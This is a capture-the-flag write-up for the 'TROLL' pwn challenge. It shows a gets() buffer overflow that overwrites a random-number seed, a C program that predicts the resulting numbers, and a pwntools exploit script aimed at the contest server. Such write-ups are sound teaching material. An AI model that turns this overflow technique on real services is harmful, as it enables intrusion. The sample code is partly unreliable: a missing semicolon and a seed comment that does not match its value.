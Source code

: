 ## TROLL (50pts) ##

![TASK](https://imgur.com/AgJ7rGR.png)

In this task we are supposed to win a game by guessing the next 100 random numbers , looking at the source code we can see the vulnerable gets function , after that we are setting the seed
value to the time and finally the beginning of the loop and generating the random numbers and questions each time .

![MAIN](https://imgur.com/AApFQgK.png)

My idea was to overwrite the seed value with our own value than BINGO we can generate the next random numbers and win the game , i have done things manually , i entered a unique seaquence and than observed with gdb if i have overwritten where the seed value is stored 

My input :
> AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

![TASK](https://imgur.com/XqjEzZQ.png)

I have entered a sequence of alphabet characters and stopped in the call of srand function , you can see te RDI register(where the 1st argument passed to a function is stored)  hold the value of "MMMM"
so if we replace "MMMM" with the value we want , this value will be the seed for the random numbers.

I have written this little C program to generate 100 random numbers using our chosen seed and stored them in a file :
```c
#include<stdlib.h>
#include<stdio.h>
#include<time.h>

int main(int argc, char *argv[]){
    int i=0;
int seed=3472328296227680305    //0x1000 in decimal
srand(seed);
for(i=0;i<=99;i++){
    int a=rand()% 100000 + 1;
    printf("%d\n",a);  
} 
 return 0;
}
```

After that i have written this exploit to overwrite the seed value with 0x1000 and answer the questions using the numbers we have generated 

```python
from pwn import *
#p=process("./troll")
p=remote("challenges.tamuctf.com",4765)
p.recvuntil("Who goes there?")
SEED="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP1000"
p.sendline(SEED)
log.info("Sent First payload")
answers=open("answer","r")
for line in answers:
        p.recvuntil("What is it?")
        log.info("sending answer: "+line)
        p.sendline(line)
p.interactive()

```
Note: the offset in the remote server is different, so i had to guess it xD However we got our flag : 

![MAIN](https://imgur.com/QjwTHDR.png)

This is the first time writing a pwn writeup so i hope you enjoyed it , any questions you can find me on twitter @BelkahlaAhmed1
